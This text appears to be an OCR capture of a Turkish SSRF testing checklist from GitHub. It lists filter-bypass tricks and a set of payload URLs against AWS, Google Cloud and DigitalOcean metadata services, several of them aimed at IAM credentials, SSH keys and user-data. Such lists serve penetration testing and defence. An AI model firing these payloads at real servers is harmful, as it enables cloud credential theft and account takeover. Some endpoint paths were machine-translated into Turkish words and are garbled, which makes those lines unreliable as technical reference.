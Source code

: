      - [ ] Temel localhost veri yüklerini deneyin
     - Filtreleri atlamak
         - [ ] HTTPS kullanarak atla
         - [ ] [::] ile atla
         - [ ] Etki alanı yönlendirmesiyle atlama
         - [ ] Ondalık IP konumu kullanarak atlama
         - [ ] IPv6/IPv4 Adres Yerleştirmeyi kullanarak atlama
         - [ ] Hatalı biçimlendirilmiş URL'leri kullanarak atlama
         - [ ] Nadir adres kullanarak atlama (sıfırları bırakarak kısa IP adresleri)
         - [ ] Ekteki alfanümerikleri kullanarak atlama
     - Bulut Örnekleri
         - AWS
            
             ```
             http://instance-data
             http://169.254.169.254
             http://169.254.169.254/en son/kullanıcı verileri
             http://169.254.169.254/latest/user-data/iam/security-credentials/[ROL ADI]
             http://169.254.169.254/latest/meta-data/
             http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROL ADI]
             http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
             http://169.254.169.254/latest/meta-data/ami-id
             http://169.254.169.254/latest/meta-data/reservation-id
             http://169.254.169.254/latest/meta-data/ana bilgisayar adı
             http://169.254.169.254/latest/meta-data/public-keys/
             http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
             http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
             http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
             http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
             http://169.254.169.254/latest/dynamic/instance-identity/document
             ```
            
         - Google Bulut
            
             ```
             http://169.254.169.254/computeMetadata/v1/
             http://metadata.google.internal/computeMetadata/v1/
             http://metadata/computeMetadata/v1/
             http://metadata.google.internal/computeMetadata/v1/instance/hostname
             http://metadata.google.internal/computeMetadata/v1/instance/id
             http://metadata.google.internal/computeMetadata/v1/project/project-id
             ```
            
         - Dijital Okyanus

             ```
             curl http://169.254.169.254/metadata/v1/id
             http://169.254.169.254/metadata/v1.json
             http://169.254.169.254/metadata/v1/
             http://169.254.169.254/metadata/v1/id
             http://169.254.169.254/metadata/v1/user-data
             http://169.254.169.254/metadata/v1/anasistem adı
             http://169.254.169.254/metadata/v1/region
             http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
             ```
            